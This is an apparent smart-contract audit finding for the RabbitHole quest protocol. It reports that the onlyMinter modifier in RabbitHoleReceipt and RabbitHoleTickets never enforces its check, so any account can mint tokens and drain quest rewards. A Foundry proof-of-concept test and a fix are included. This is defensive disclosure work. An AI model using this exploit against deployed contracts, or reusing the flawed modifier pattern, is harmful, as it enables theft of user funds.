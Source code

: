 # Bad implementation in minter access control for `RabbitHoleReceipt` and `RabbitHoleTickets` contracts

Both `RabbitHoleReceipt` and `RabbitHoleTickets` contracts define a `mint` function that is protected by a `onlyMinter` modifier:

RabbitHoleReceipt:

https://github.com/rabbitholegg/quest-protocol/blob/8c4c1f71221570b14a0479c216583342bd652d8d/contracts/RabbitHoleReceipt.sol#L98-L104

```solidity
function mint(address to_, string memory questId_) public onlyMinter {
    _tokenIds.increment();
    uint newTokenID = _tokenIds.current();
    questIdForTokenId[newTokenID] = questId_;
    timestampForTokenId[newTokenID] = block.timestamp;
    _safeMint(to_, newTokenID);
}
```

RabbitHoleTickets:

https://github.com/rabbitholegg/quest-protocol/blob/8c4c1f71221570b14a0479c216583342bd652d8d/contracts/RabbitHoleTickets.sol#L83-L85

```solidity
function mint(address to_, uint256 id_, uint256 amount_, bytes memory data_) public onlyMinter {
    _mint(to_, id_, amount_, data_);
}
```

However, in both cases the modifier implementation is flawed as there isn't any check for a require or revert, the comparison will silently return false and let the execution continue:

```solidity
modifier onlyMinter() {
    msg.sender == minterAddress;
    _;
}
```

## Impact

Any account can mint any number of `RabbitHoleReceipt` and `RabbitHoleTickets` tokens.

This represents a critical issue as receipts can be used to claim rewards in quests. An attacker can freely mint receipt tokens for any quest to steal all the rewards from it.

## PoC

The following test demonstrates the issue.

```solidity
contract AuditTest is Test {
    address deployer;
    uint256 signerPrivateKey;
    address signer;
    address royaltyRecipient;
    address minter;
    address protocolFeeRecipient;

    QuestFactory factory;
    ReceiptRenderer receiptRenderer;
    RabbitHoleReceipt receipt;
    TicketRenderer ticketRenderer;
    RabbitHoleTickets tickets;
    ERC20 token;

    function setUp() public {
        deployer = makeAddr("deployer");
        signerPrivateKey = 0x123;
        signer = vm.addr(signerPrivateKey);
        vm.label(signer, "signer");
        royaltyRecipient = makeAddr("royaltyRecipient");
        minter = makeAddr("minter");
        protocolFeeRecipient = makeAddr("protocolFeeRecipient");

        vm.startPrank(deployer);

        // Receipt
        receiptRenderer = new ReceiptRenderer();
        RabbitHoleReceipt receiptImpl = new RabbitHoleReceipt();
        receipt = RabbitHoleReceipt(
            address(new ERC1967Proxy(address(receiptImpl), ""))
        );
        receipt.initialize(
            address(receiptRenderer),
            royaltyRecipient,
            minter,
            0
        );

        // factory
        QuestFactory factoryImpl = new QuestFactory();
        factory = QuestFactory(
            address(new ERC1967Proxy(address(factoryImpl), ""))
        );
        factory.initialize(signer, address(receipt), protocolFeeRecipient);
        receipt.setMinterAddress(address(factory));

        // tickets
        ticketRenderer = new TicketRenderer();
        RabbitHoleTickets ticketsImpl = new RabbitHoleTickets();
        tickets = RabbitHoleTickets(
            address(new ERC1967Proxy(address(ticketsImpl), ""))
        );
        tickets.initialize(
            address(ticketRenderer),
            royaltyRecipient,
            minter,
            0
        );

        // ERC20 token
        token = new ERC20("Mock ERC20", "MERC20");
        factory.setRewardAllowlistAddress(address(token), true);

        vm.stopPrank();
    }
    
    function test_RabbitHoleReceipt_RabbitHoleTickets_AnyoneCanMint() public {
        address attacker = makeAddr("attacker");

        vm.startPrank(attacker);

        // Anyone can freely mint RabbitHoleReceipt
        string memory questId = "a quest";
        receipt.mint(attacker, questId);
        assertEq(receipt.balanceOf(attacker), 1);

        // Anyone can freely mint RabbitHoleTickets
        uint256 tokenId = 0;
        tickets.mint(attacker, tokenId, 1, "");
        assertEq(tickets.balanceOf(attacker, tokenId), 1);

        vm.stopPrank();
    }
}
```

## Recommendation

The modifier should require that the caller is the `minterAddress` in order to revert the call in case this condition doesn't hold.

```solidity
modifier onlyMinter() {
    require(msg.sender == minterAddress);
    _;
}
```
